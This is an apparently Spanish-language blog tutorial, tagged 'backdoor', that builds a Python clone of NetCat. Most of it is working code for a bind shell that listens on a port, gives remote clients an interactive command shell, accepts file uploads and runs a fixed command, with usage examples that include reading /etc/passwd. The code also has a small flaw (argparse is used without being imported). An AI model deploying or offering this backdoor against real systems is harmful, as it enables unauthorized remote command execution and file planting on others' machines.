 ```yaml
---
layout: single
title: "Creando nuestro propio NetCat"
excerpt: "NetCat es una herramienta bastante util, ya que nos permite abrir puertos TCP/UPD en un host, leer y escribir datos en la red, puede ejecutar comandos remotos, puede abrir una shell remota, entre otras cosas. Aqui crearemos una en nuestro lenguaje de confianza, python. "
date: 2022-08-03 
classes: wide
header:
 teaser:
 teaser_home_page: true
categories:
  - programacion
  - ciberseguridad
tags:
  - seguridad
  - herramienta
  - networks
  - python
  - backdoor
---
```


En ocasiones vemos servidores que no tienen instalado NetCat y/o tampoco permite la instalacion de dicha herramienta, pero si que contamos con python, por lo que utilizaremos este lenguaje para montarnos una herramienta similiar al NetCat.

Vamos a ponerle de nombre al archivo **netcat.py** y empezamos importando las librerias necesarias para trabajar nuestra herramienta

```python
import socket
import shlex
import subprocess
import sys
import textwrap
import threading
```

Cabe resaltar que la libreria **subprocess** nos brinda la creacion de procesos para interactuar con los programas cliente. Creamos una funcion llamada **execute** y le pasamos como parametro ```cmd``` .  Empezamos con nuestra funcion y creamos una variable llamada cmd donde le pasamos el parametro cmd seguido del metodo _strip()_ , este metodo lo que nos hace es eliminar cualquier espacio delante o detras de la palabra. 

Despues de la sentencia if nos creamos una variable llamada **output** y haciendo uso esta misma libreria, subprocess, usamos el metodo _check_output_ que facilmente nos ejecuta un comando en el sistema operativo local y luego devuelve su resultado 

```python
def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()
```


```python
class NetCat:
    def __init__(self, args, buffer=None):
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self):
        if self.args.listen:
            self.listen()
        else:
            self.send()

    def send(self):
        self.socket.connect((self.args.target, self.args.port))
        if self.buffer:
            self.socket.send(self.buffer)
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096:
                        break
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    def listen(self):
        print('listening')
        self.socket.bind((self.args.target, self.args.port))
        self.socket.listen(5)
        while True:
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread(target=self.handle, args=(client_socket,))
            client_thread.start()

    def handle(self, client_socket):
        if self.args.execute:
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        elif self.args.upload:
            file_buffer = b''
            while True:
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                    print(len(file_buffer))
                else:
                    break
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())
        elif self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    client_socket.send(b' #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.encode())
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='BHP Net Tool',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent('''Example:
          netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell
          netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.whatisup # upload to file
          netcat.py -t 192.168.1.108 -p 5555 -l -e=\"cat /etc/passwd\" # execute command
          echo 'ABCDEFGHI' | ./netcat.py -t 192.168.1.108 -p 135 # echo local text to server port 135
          netcat.py -t 192.168.1.108 -p 5555 # connect to server
          '''))
          
    parser.add_argument('-c', '--command', action='store_true', help='initialize command shell')
    parser.add_argument('-e', '--execute', help='execute specified command')
    parser.add_argument('-l', '--listen', action='store_true', help='listen')
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP')
    parser.add_argument('-u', '--upload', help='upload file')
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
    nc = NetCat(args, buffer.encode('utf-8'))
    nc.run()
```